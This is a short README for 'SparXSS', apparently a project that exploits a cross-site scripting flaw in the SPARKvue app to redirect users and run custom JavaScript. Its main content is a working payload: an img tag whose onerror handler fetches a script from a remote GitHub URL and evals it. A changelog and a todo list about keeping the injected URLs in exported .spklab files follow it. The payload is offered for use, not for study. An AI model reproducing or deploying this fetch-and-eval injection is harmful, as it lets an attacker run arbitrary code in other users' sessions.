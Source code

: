 ## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r => r.text()).then(c => eval(c))'>
```

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

## ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)

## Changelog

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far
